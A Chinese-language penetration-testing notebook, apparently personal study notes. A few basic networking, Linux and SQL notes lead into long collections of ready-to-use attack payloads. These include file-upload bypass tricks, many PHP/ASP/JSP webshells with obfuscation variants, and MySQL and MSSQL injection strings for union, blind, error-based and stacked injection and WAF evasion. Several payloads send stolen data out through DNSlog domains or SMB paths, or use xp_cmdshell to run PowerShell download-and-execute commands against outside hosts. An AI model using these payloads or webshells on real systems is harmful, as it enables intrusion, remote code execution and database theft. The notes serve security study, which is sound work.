# 知识遗漏点

### linux计划任务

创建一个简单的 `sh` 脚本来实现开机后立即关机。按以下步骤操作：

1. 创建脚本文件：

   ```bash
   sudo nano /usr/local/bin/shutdown.sh
   ```

2. 在文件中输入以下内容：

   ```bash
   #!/bin/sh
   /sbin/shutdown -h now
   ```

3. 保存文件并退出编辑器。

4. 使脚本可执行：

   ```bash
   sudo chmod +x /usr/local/bin/shutdown.sh
   ```

5. 使用 `cron` 设置开机后执行脚本：

   ```bash
   sudo crontab -e
   ```

   添加以下行：

   ```bash
   @reboot /usr/local/bin/shutdown.sh
   ```

保存并退出。这样脚本会在每次开机时执行，导致系统立即关机。

****

### linux创建高权限用户

#### 首先先创建好一个普通账号

```bash
useradd smile	#创建一个用户名为 smile 的账号
passwd smile	#修改 smile 的用户密码
```


#### 方法一:将用户加入 wheel 用户组

```bash
usermod -g wheel smile	#修改 smile 用户组为 wheel
```


```bash
#打开 /etc/shadow 试试
sudo vim /etc/shadow
```



```
可以看到有权限打开 /etc/shadow
```




#### 方法二:修改 sudoers 文件

```bash
vim /etc/sudoers	#在root权限下,打开 /etc/sudoers 文件,加入下面这行
```



```bash
修改好了以后,按住 shift+; 输入 wq! 保存退出
```



```bash
保存好了以后我们再查看 /etc/shadow 
```



```
发现能成功访问
```




#### 方法三:修改passwd文件

```bash
#在root权限下打开 passwd 文件
vim /etc/passwd		
```



```
上面我们可以看到 root 权限的uid为0,我们可以把 smile 账户的uid也修改为0
```



```
这里使用前叫 tomato ,使用su smile 会跳转为root权限
```





------

### windows创建任务计划

开机就立即执行关机任务，可以通过 `schtasks` 创建一个在系统启动时立即触发的关机任务。这里的关键是将触发器设置为 "开机时" (`/sc onstart`)。

```cmd
schtasks /create /tn "AutoShutdownOnStart" /tr "shutdown /s /f /t 0" /sc onstart /ru System
```

1.解释：

- `/tn "AutoShutdownOnStart"`：任务名称为 "AutoShutdownOnStart"。
- `/tr "shutdown /s /f /t 0"`：任务执行的动作是立即关机（0秒延迟，强制关闭所有程序）。
- `/sc onstart`：设置任务在系统启动时触发。
- `/ru System`：任务使用系统账户运行，因此即使没有用户登录，它也会执行。

2.验证任务是否创建成功：

运行以下命令来确认任务是否创建：

```cmd
schtasks /query /tn "AutoShutdownOnStart"
```

------

### OSI模型

```php
//展示了TCP/IP协议模型的四个层次，从上到下依次是应用层、传输层、网络层和数据链路层。每个层次都有不同的功能和责任，它们共同构成了整个TCP/IP协议模型。

//在应用层（Application Layer），它负责处理应用程序之间的通信，例如浏览器与Web服务器之间的交互。应用层提供了各种协议，如HTTP、FTP和SMTP，用于支持不同的网络服务。

//传输层（Transport Layer）负责提供可靠的数据传输，确保数据包正确地从源端传送到目标端。传输层使用TCP（传输控制协议）或UDP（用户数据报协议）来建立连接、管理数据流和错误检测。

//网络层（Network Layer）负责将数据包从源端路由到目标端。它使用IP（互联网协议）来确定数据包的最佳路径，并处理分组、寻址和路由等功能。

//数据链路层（Data Link Layer）负责在物理媒介上传输数据包，如以太网或Wi-Fi。它处理物理连接、帧同步和错误检测等任务。
```

```php
//物理层:接收信号并将其转化成比特流,传递给数据链路层
//数据链路层:接收数据帧,去除数据链路层头部和尾部,将数据包传递给网络层
//网络层:接收数据包,去除网络层头部,将报文段传递给传输层
//传输层:接收报文段,去除传输层头部,将数据传递给应用层
//应用层:接收数据并交给应用程序处理
```

```php
//假设一台计算器通过浏览器请求一个网页

//应用层:浏览器(http协议)生成http请求,传递给传输层
//传输层:传输层(tcp协议)将http请求封装成tcp段,传递给网络层
//网络层:网络层(IP协议)将TCP段封装成ip包,传递给数据链路层
//数据链路层:数据链路层(以太网协议)将ip封装成以太网帧,传递给物理层
//物理层:物理层将以太网帧转换成电信号,通过网络传输到目的地

//在接收端

//物理层:接受电信号并转化成比特流,传递给数据链路层
//数据链路层:接收以太网帧,去除头部和尾部,传递ip包给网络层
//网络层:接受ip包,去除头部,传递tcp段给传输层
//传输层:接收tcp段,去除头部,传递http请求给应用层
//应用层:接收http请求,web服务器处理请求并生成响应


//路由器(网络层)能进行网络寻址,交换机不能
```

****

### 数据库的增删查改

- `varchar`和`char`的区别:`varchar`为可变长度的字符串,存储什么就是什么.而`char`长度固定,如果长度端则会用`空格`补充

```sql
#创建数据库
create database if not exists students;

#删除数据库
drop database students;

#创建表
mysql> create table users(
    -> id int auto_increment primary key,
    -> name varchar(50) not null);
Query OK, 0 rows affected (0.01 sec)

#插入数据
insert into users(id,name) values(1,'sunhua');

#查询数据
select * from users where id=1;

#删除数据
delete from users where id=1;
```

------

### 子网掩码划分

```php
/*
  (假定一个ip网段如何合理划分) -->192.168.71.0/24 假定有8个班共同使用
  1.确定子网掩码前24位作为网络部分,后8位作为主机部分,要划分成8个子网,需要扩展主机位
  2.确定新的子网掩码:每个子网需要至少2个可用的主机地址(一个用作网络地址,一个用作广播地址),因此我们需要确定新的子网掩码
  3.初始的子网掩码是/24,要将网络划分成8个子网,我们至少需要3位作为子网部分,3位可以表示为8个不同的子网(000,001,010,011,100,101,110,111)

即新的子网掩码为/27-->255.255.255.224(27个1,即11111111.11111111.11111111.11100000,2^7+2^6+2^5=224)
  
  4.确定子网范围:根据新的子网掩码,计算出原始网络起始地址为 192.168.71.0 ,新的子网掩码是/27,所以每个子网的范围是(2^5=32)个IP地址
  
  最终分配的IP地址范围如下:
  子网1:192.168.71.0~192.168.71.31
  子网2:192.168.71.32~192.168.71.63
  子网3:192.168.71.64~192.168.71.95
  子网4:192.168.71.96~192.168.71.127
  子网5:192.168.71.128~192.168.71.159
  子网6:192.168.71.160~192.168.71.191
  子网7:192.168.71.192~192.168.71.223
  子网8:192.168.71.224~192.168.71.255
  
 */
```

------

### php文件上传绕过

- 1.前端验证,`js禁用`,`修改js`,`修改文件后缀`

- 2.mine验证,修改`content-type` --> filename="1.php" content-type="image/jpeg"

- 3.`黑名单验证`特殊后缀,`php3,php5 ....`

- 4.`.htaccess解析绕过`,将根目录下的所有文件解析为php文件

  - ```css
    <FilesMatch ".jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```

- 5.`大小写绕过`,修改文件后缀,`php的特性:文件名不区分大小写(PHP)`

- 6.`黑名单验证`空格绕过(windows环境),方法:`抓包文件名后缀添加空格,由于windows特性会去除空格`,`点`,`:1.jpg`,`::$DATA`

- 7.`黑名单验证`点号绕过,方法:在`文件名后缀`添加`.`

- 8.`黑名单验证`特殊字符`::$DATA`绕过(windows)

- 9.`00截断`,在后缀名后添加`%00`(get型)

- 10.`00截断`抓包在16进制里添加一个占位符`1.phpa`,找到`a的16进制修改为00`

- 11.图片马

  - ```cmd
    copy 1.jpg/b + 2.php/a 3.jpg
    ```
  
- 12.`文件幻数`

  - | 图片格式 | 文件幻数                |
    | -------- | ----------------------- |
    | PNG      | 89 50 4E 47 0D 0A 1A 0A |
    | JPG      | FF D8 FF E0 00 10 4A 46 |
    | GIF      | 47 49 46 38 39 61       |

- 13.常见`文件头`

  - | 文件类型       | 文件头                                            |
    | -------------- | ------------------------------------------------- |
    | jpeg  jpg  png | JPGGraphic File                                   |
    | GIF            | GIF89a                                            |
    | doc  xls  ppt  | MS Compound Document v1 or Lotus APProach APRfile |
    | zip            | Zip Compressed                                    |


##### 文件上传防御

- 采用`白名单`策略,严格限制文件上传的后缀名
- 进行`二次渲染`,过滤图片马中的恶意代码
- 上传文件`重命名`,尽量少的从客户端获取信息
- 避免`文件包含`漏洞
- 严格处理文件路径,防御`00截断`漏洞,避开`空格`,`点`,`::DATA$`等windows特性

------

### webshell及变形

#### 命令执行函数

> `system()`,`exec()`,`shell_exec()`,`passthru()`,`popen()`,`反引号`  --> 6种

#### 代码执行的函数

> `eval`,`assert`,`preg_replace`,`create_function`,`array_map`,`asort`,`call_user_func`,`call_user_func_array`,`array_filter` --> 9种

- `eval()`

```php
// ?a=phpinfo();
<?php @eval($_GET['a']);?>
    
<?=eval($_POST[1])?>
    
<script language="php">@eval($_POST[1]);?></script>
    
    name=1'ununionion selselectect 1,2,3,"<?php @eval($_POST[1]);?>" into outfile "/var/www/html/upload/sh.php" #&submit=Submit
```

- `assert()`

```php
// ?b=phpinfo();
<?php @assert($_POST['b']);?>
```

- `preg_replace()`

```php
// ?c=phpinfo();
</php @preg_replace("/abc/e",$_REQUEST['c'],"abc");?>
```

- `create_function()`

```php
// ?d=phpinfo();
<?php
$func=create_function("",$_REQUEST['d']);
$func();
?>
```

- `array_map()`

```php
// ?e=system&cmd=whoami&ip=ipconfig
<?php
$func1=$_REQUEST['e'];
$cmd=$_REQUEST['cmd'];
$ip=$_REQUEST['ip'];
$array[0]=$cmd;
$array[1]=$ip;
$new_array=array_map($func1,$array);
?>
```

- `array_filter()`

```php
// ?f=system&whoami
<?php
$who=$_REQUEST['who'];
$array1=array($who);
$func2=$_REQUEST['f'];
@array_filter($array1,$func2);
?>
```

#### webshell绕过

- PHP一句话木马

```php
<?php @eval($_POST['cmd']);?>
```

- ASP一句话木马

```jsp
<%eval request("cmd")%>
```

- JSP一句话

```jsp
<% @page language="java"
	Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

- aspx

```asp
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"],"unsafe"));%>
```

> 绕过(`关键字查找`,`关键字替换`,`编码替换`,`操作符`,`更换数据来源`,`嵌套`,`更换标签(script)`,`字符串组合`,`自定义类`,`自定义函数`,`魔术方法`,`匿名方法`,`异或运算`)  --> 13种

- `关键字查找`(str_replace)

```php
<?php
$a=str_replace("abc","","aabcsabcsabceabcrabct");
@$($_REQUEST['cmd']);
?>
```

- `关键字替换`(str_replace)

```php
<?php
$b="assexx";
$c=str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```

- `编码替换`(base64-decode)

```php
<?php
$a=base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```

- `操作符`

```php
<?php
$a="as"."se";
$b="r"."t";
$c=$a.$b;
$c($_REQUEST['cmd']);
?>
```

- `更换数据源`

```php
// ?a=assert&cmd=phpinfo();
<?php
$_REQUEST[a]($_REQUEST['cmd']);
?>
```

- `嵌套$_REQUEST`

```php
// ?b=cmd&cmd=phpinfo();
<?php
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

- `替代<.??>标签`

```php
<script language="php">
	@assert($_REQUEST['cmd']);
</script>
```

- `字符串组合`

```php
<?php
$str='abcsqebrt';
$a=$str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```

- `自定义函数`

```php
<php
function admin($a){
	@eval($a);
}
admin($_REQUEST['admin']);
?>
```

- `自定义类`

```php
<?php
class Webshell{
	function admin($a){
		@eval($a);
	}
}
$web= new Webshell();
$web->admin($_REQUEST['admin']);
?>
```

- `魔术方法`-->`__construct()`,`__destruct()`,`__wakeup()`,`__toString()`

```php
// ?name=phpinfo();
<?php
class Student{
	public $xw=null;
	public $xl=null;
	function __construct(){
		$this->xw="riny(\$_REQUEST['anzr'])";
		@assert($this->xl);
	}
}
new Student();
```

- `创建匿名方法`

```php
<?php
$fun1=create_function('$a,$b','return($a+$b);');
echo $func1(10,20);
?>
```

- `异或运算`

------

### SQL注入(3306)

> 分类 --> 11种(搜索型,字符型,整数型)

#### `联合查询注入`

```sql
#查询字段数
?id=-1'order by 4 --+
#判断回显点
?id=-1'union select 1,2,3 --+
#获取数据库名
?id=-1'union select 1,2,database()--+
#获取表名
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
#获取users表字段名
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
#获取所有数据
?id=-1'union select 1,2,group_concat(id,username,password) from security.users--+
```

------

#### `报错注入`

> 相关函数`extractvalue`,`updatexml`,`floor`,`name_const`,`exp`,`json_type`,`json_extract`,`json_array_append`,`multipoint`,`linestring`,`multilinestring`,`polygon`

- `extractvalue`

```sql
# extractvalue(arg1,arg2)
#获取数据库名
?id=1'and extractvalue(1,concat(0x3a,database(),0x3a))--+
#获取表名
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
#获取users表的字段
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"),0x3a)) --+
#获取所有数据
?id=-1'union select 1,2,select table_name from information_schema.tables where table_schema=database()--+
```

- `updatexml`-->跟`extractvalue`一样,不同点就是多了个参数,`updatexml(arg1,arg2,arg3)`
- `floor(rand(0)*2)`-->对生成的0-2之间的随机数向下取整,2条记录可能报错

```sql
#获取数据库名
?id=1' and (select 1 from (select count(*), concat(database(), floor(rand(0)*2)) as x from information_schema.tables group by x)a)--+
```

- `name_const(name,value)`

```sql
#获取数据库版本信息
?id=1'and (select * from (select name_const(version(),1),name_const(version(),1))a)--+
```

- `exp`-->整形溢出,是以`e`为底的指数函数,参数大于`709`时会溢出

```sql
#显版本信息
?id=1'and exp(~(select * from (select version())a))--+
```

- `multipoint`

```sql
#获取数据库版本信息
?id=1'and (select multipoint((select * from(select * from(select * from(select version())a)b)c)))--+
```

- `json`

```sql
#json_type
?id=1'and json_type(version())--+

#json_extract(json_doc,path[,path])
?id=1'and json_extract(user(),'$.a')--+

#json_array_append()
?id=1'and json_array_append('[1,2,3]',user(),1) --+
```

------

#### `布尔盲注`

> 相关函数`substr`,`substring`,`mid`,`left`,`right`,`length`,`ascii`

```sql
#判断数据库名长度-->n为数据库名长度
?id=1'and length(database())=n --+ 

#获取数据库名称
?id=1'and (substr(database(),1,1))='s'--+

#获取第一张表名长度
?id=1'and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6)--+

#获取表的个数-->m为表的个数
?id=1'and (select count(*) from information_schema.tables where table_schema=database())=m --+

#获取表名
?id=1'and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)="m")--+

#获取字段个数(id,username,password)
?id=1'and ((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3)--+

#获取字段长度(id)
?id=1'and (length((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1))=2)--+

#获取字段名(users-->"s") 这里直接对字符进行猜解,注意 `limit 1,1),2,1` 里面的第三个数字是从1开始
?id=1' and substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1) = "s" --+

#获取数据
?id=-1'union select 1,2,(select group_concat(id,username,password) from security.users) --+
```

------

#### `时间盲注`

> 相关函数`sleep`,`benchmark`

```sql
#获取数据库名长度(security)
?id=1'and if((length(database()))=8,sleep(10),0) --+

#获取数据库名称(第一个"s")
?id=1'and if((substr(database(),1,1))="s",sleep(5),0)--+

#获取表的个数
?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(3),0)--+

#获取表名长度
?id=1'and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6,sleep(3),0)--+

#获取表名(email-->'e')
?id=1'and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='e',sleep(3),0) --+

#获取字段个数-->3
?id=1'and if((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3,sleep(3),0)--+

#获取字段名
?id=1' and if(substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1)="s",sleep(3),0) --+
```

------

#### `数据外带`

> 外带常用平台
>
> http://dnslog.cn/
>
> http://eyes.sh/
>
> http://ceye.io/
>
> `Burp Collaborator` 

| 方式                                  | 简介                    |
| :------------------------------------ | ----------------------- |
| secure_file_priv                      | 拥有读写权限            |
| secure_file_priv=""                   | 可以读取任何目录        |
| secure_file_priv='/var/www/html'      | 可以读取指定文件        |
| secure_file_priv=null                 | 不能加载文件            |
| show global variables like "%secure%" | 查看mysql是否有写的权限 |

```cmd
//数据外带条件
1.Windows操作系统
2.secure_file_priv 不为空

//DNS数据外带
id=1'and load_file(concat('\\\\',(select database()),'.34ab77c4.log.dnslog.store.\\abc')) --+

# 获取表名
http://192.168.2.9/master/Less-1/?id=1' and load_file(concat('////',(select group_concat(table_name separator '_')
from information_schema.tables where table_schema=database()),'.f1ylqx.dnslog.cn//abc')) --+

# 获取字段名
http://192.168.2.9/master/Less-1/?id=1' and load_file(concat("//",(select group_concat(column_name separator "_") from information_schema.columns where table_schema=database() and table_name="users"),".f1ylqx.dnslog.cn/abc")) --+

# 获取数据
http://192.168.2.9/master/Less-1/?id=1' AND load_file(CONCAT('////',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45)FROM users),'.trkww0.dnslog.cn/abc')) --+
```

```cmd
//SMB数据外带
命令:yum install samba -y
修改配置文件:vim /etc/samba/smb.conf
默认samba日志路径:/var/log/samba/log.smbd


//利用实时查看日志并匹配结果
tail -f /var/samba/log.smbd | grep "failed to find service"

//smb数据外带实验
id=1'and load_file(concat('\\\\192.168.1.1\\',(select user()),'t'))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(schema_name from information_schema.schemata),'t')))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(username,':',password) from security.users),'t'))%23


//DNS数据外带和SMB数据外带优缺点
优点:
- dns数据外带,在极限条件下(内网机器不出网,支持dns出网),规避流量检测设备,可以用dnslog外带数据
- smb外带数据,在默认支持tcp|udp出网方式,可用无长度限制和符号限制,规避流量检测设备

缺点:
- dns外带数据:在符号长度有限制,61长度限制,*@#$%不支持敏感符号,需要转码数据外带
- smb数据外带,默认要允许tcp出网
```



##### DNS数据外带

- 在极限条件下(内网机器不出网,支持dns出网,隐匿性高,不容易被拦截),61长度限制,不支持敏感符号,外带数据需要转码,规避流量检测设备

##### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn//a"') --+
```



##### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn//a"') --+
```



##### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```



```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```



##### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

##### HTTP数据外带

##### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.37.240:9000?data='%2b@a%2b''')"') --+
```



##### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```



##### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


------

##### SMB数据外带

- 默认支持TCP/UDP出网方式时可用,无长度限制和符号限制,规避流量检测设备
- CentOS 7安装SMB服务

```bash
#安装smb服务
yum install samba -y
#修改配置文件
vim /etc/samba/smb.conf
#修改samba日志路径
vim /var/log/samba/log.smba
#利用实时查看日志并匹配结果
tail -f /var/log/samba/log.smbd | grep "failed to find service"
```

------

#### `宽字节注入`

> 使用`gbk`编码,2个字符为一个汉字,第一个字节是`129-254`,第二个字节是`64-254`

```sql
#payload
?id=1%df order by 3 --+
```

------

#### `http头注入`

- 用户提交的HTTP请求包的头信息未作过滤,直接带入数据库执行,可通过http头参数修改检测是否存在漏洞
- 原因:在网页代码种的`ip`字段与数据库有交互,或代码中存在超全局变量`$_SERVER[]`

| 参数                 | 含义                     |
| -------------------- | ------------------------ |
| http_host            | 获取当前域名             |
| http_user_agent      | 获取用户相关信息         |
| http_accept          | 当前请求的accept头部信息 |
| http_cookie          | 浏览器的cookie信息       |
| server_addr          | 服务器的ip地址           |
| remote_addr          | 浏览网页的用户IP         |
| http_x_forwarded_for | 浏览网页的用户IP         |
| http_client_ip       | 浏览网页的用户IP         |
| script_filename      | 当前执行脚本的绝对路径   |

------

#### `二次编码注入`

> 使用`%2527`-->`'`

```sql
?id=-1%2527 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

------

#### `base64注入`

```sql
# -1'union select 1,2,3 --+
  LTEndW5pb24gc2VsZWN0IDEsMiwzIC0tKw==
```

------

#### `堆叠注入`

> 分号结束sql语句后继续构造下一个sql语句

- 条件:使用联合查询获取表名,列名,然后使用堆叠注入

```cmd
POST /Less-42/login.php HTTP/1.1
Host: 8.137.60.154:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://8.137.60.154:8082
Connection: keep-alive
Referer: http://8.137.60.154:8082/Less-42/
Cookie: X_CACHE_KEY=18b8d5e68c691a237ceb5842f0a3b017; PHPSESSID=4tjd6fh9h132u8udgbqpt1st67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

login_user=1&login_password=1';insert into users(id,username,password) value('111','sunhua','sunhua') --+&mysubmit=Login
```

------

#### `二次注入`

> `注册账号利用第一次登录获取数据的案例`

- 已存储的用户输入被读取后,再次进入到sql查询语句中导致的注入
- `原理`:
  - 网站在对用户输入的恶意数据进行转义处理
  - 恶意数据插入到数据库时又被还原并存储到数据库中
  - 系统再次调用该恶意数据并执行sql查询时,被成功注入(因为调用时不会考虑转义问题)

------

### SQL注入WAF绕过

##### 大小写绕过

```sql
?id=-1'UoIoN SeLeCt 1,2,3 --+
```

##### 双写绕过

```sql
?id=-1'ununionion selselectect 1,2,3 --+
```

##### 字符串替换

| 字符 | 替换            |
| ---- | --------------- |
| and  | &&              |
| or   | \|\|            |
| =    | <>              |
| 空格 | %20(url编码)    |
| 空格 | %09(tab键,水平) |
| 空格 | %0a(换行符)     |
| 空格 | %0b(tab键,垂直) |
| 空格 | %0c(新的一页)   |
| 空格 | %0d(return功能) |
| 空格 | /**/            |

##### 特殊字符串拼接

```sql
?id=1;exec(master..xp_cmdshell'net user') --> id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
```

##### 编码绕过

> `url编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'%75%6e%69%6f%6e%20%73%65%6c%65%63%74 1,2,3 --+
```

> `unicode编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'un%u0069on sel%u0065ct 1,2,3 --+
```

> `十六进制`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'756e696f6e2073656c656374 1,2,3 --+
```

##### 注释绕过

> `普通注释`

```sql
# ?id=-1'union select 1,2,3 --+
  ?id=-1'/**/union/**/select 1,2,3 --+
  ?id=-1'/**/union/select 1,2,database/*%!a*/() -->使用/*%特殊符号*/的形式绕过/**/正则的过滤
```

> `内联注释`

- /*! code*/ 内联注释可用用于整个sql语句中

- 过滤了`union,where,table_name,table_schema,=,and,information_schema`等可用

```sql
/*!%23/*%0a关键字*/
/*!99999*/
```

##### 参数污染



##### 缓冲区溢出

- 许多waf使用c语言编写,而c语言没有缓冲区保护机制,测试向量时超出了其缓冲区的长度时,引发bug从而绕过

##### 分块传输绕过

- 将传输的内容分块时,处理后的http请求由于和已知的payload相差较大,所以可以起到绕过的作用



##### 特殊符号绕过

- 反引号绕过空格和正则,特殊情况可以作为注释符使用
- `-+`连接字符串
- `括号`-->?id=(1)
- `花括号`-->?id=-1'union select 1,{x 2},3 --+
- `等号`-->`table_schema=database()`替换为`table_schema like database()`
- `and,or`替换
- `逗号`使用join替换-->?id=-1'union select * from (select 1)a join (select 2)b join (select 3)c --+

### Mssql注入(1433)

#### 攻击手法

- 1.sql注入查询登录用户的`hash`
- 2.`扩展存储过程`的`xp_cmdshell`执行命令 ,`xp_regwrite`写注册表
- 3.`系统存储过程`的`sp_oacreate`和`sp_oamethod`执行命令,`sp_addextendproc`恢复组件
- 4.`CLR组件`执行系统命令
- 5.`差异备份`写webshell
- 6.`日志备份`写webshell

##### 判断服务器权限

```sql
and 1=(select is_srvrolemember('sysadmin'))
```

#### 联合查询注入

```sql
#获取数据库版本信息
?id=-1'union select top 1 1,2,@version --+
#查询当前数据库名
?id=-1'union select top 1 1,2,db_name() --+
#获取所有数据库名
?id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases)--+
```

```sql
#获取当前数据库名
?id=0'union select top 1 1,2,db_name() --+
?id=0'union select top 1 1,2,name from master.sys.databases --+

#获取其它数据库名
?id=0'union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+

#获取当前表名
?id=0'union select top 1 1,2,table_name from information_schema.tables --+

#获取所有表名
?id=0'union select top 1 1,2,table_name from information_schema.tables where table_name not in (select top m table_name from information_schema.tables)--+

#获取当前列名
?id=0'union select top 1 1,2,column_name from information_schema.columns --+

#获取所有列名
?id=0'union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in (select top 1 column_name from information_schema.columns where table_name='users')--+

#获取当前数据
?id=0'union select top 1 1,username,password from users --+

#获取所有数据
?id=0'union select top 1 1,username,password from users where username not in (select top m username from users) and password not in (select top m password from users) --+
```

****

#### 报错注入

```sql
#获取当前数据库名
?id=1 and db_name()>0 --+
?id=1 and db_name()=1 --+

#判断当前服务器角色是否有高权限
?id=1 and 1=(select is_srvrolemember('sysadmin')) --+

#判断当前数据库角色是否为DB_OWNER权限
?id=1 and 1=(select is_member('db_owner')) --+ 

#获取当前用户名字
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取所有数据库名
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取数据库个数
?id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+

#一次性获取所有数据库
?id=1 and 1=(select quotenam(name) from master.sys.dbo.databases FOR XML PATH('')) --+

#获取第一个表名
?id=1 and 1=(select top 1 table_name from information_schema.tables) --+

#获取其它表名
?id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema)) --+

?id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+

#获取当前字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name="users") --+

#获取所有字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in('id','username','password'))--+

?id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+

#获取数据
?id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+

?id=1 and 1=(select password from users where id=1) --+

#其它函数注入
?id=1 and 1=(select cast(name as int) from sys.databases where database_id=1)--+

?id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```

****

#### 布尔盲注

```sql
#获取数据库名 --> n表示第几个字符,m表示ascii
?id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m) --+
```

****

#### 时间盲注(waitfor delay 0:0:5)

```sql
# n表示第几个字符,m表示ascii
?id=1 if(ascii(substring((select top 1 name from sys.sysdatabases),n,1))=m) waitfor delay 0:0:5 --+
```

****

#### 数据外带

> `dnslog.cn` `ceye.io`

- 原理:
  - 利用`xp_cmdshell`扩展存储过程指定ping dnslog平台命令带出数据
  - 利用`xp_cmdshell,xp_dirtree,xp_fileexist`使用unc路径判断文件发起请求带出数据
- `DNS数据外带`

```sql
declare @a varchar(8000);
set @a=db_name(); #将sql语句绑定到变量上
exec('master..xp_cmdshell "ping.exe '+@a+'.Laffrex.exys.sh -n 1"') --+
 or 
exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"')--+
```

- 方式

  - 存在`堆叠注入`数据外带

  - mysql堆叠注入函数`mysqli_multi_query()`

  - mmsql外带利用`扩展存储过程`

    - ```sql
      #xp_cmdshell执行系统命令
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"') --+
      ```

    - ```sql
      #xp_subdirs查看路径下的目录
      ?id=1';declare @a varchar(8000);set@a=db_name();exec('master..xp_subdirs "//''%2b@a%b''.Laffrex.eyes.sh\a"') --+
      ```

    - ```sql
      #xp_dirtree查询路径下的所有文件和目录
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_dirtree "//''%2b@a%b''.Laffrex.eyes.sh\\a"') --+
      ```

    - ```sql
      #xp_fileexist判断路径是否存在
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_fileexist "//''%2b@a%2b''.Laffrex.exys.sh\\a"') --+
      ```

- `HTTP数据外带`

```sql
#存在堆叠注入的数据外带
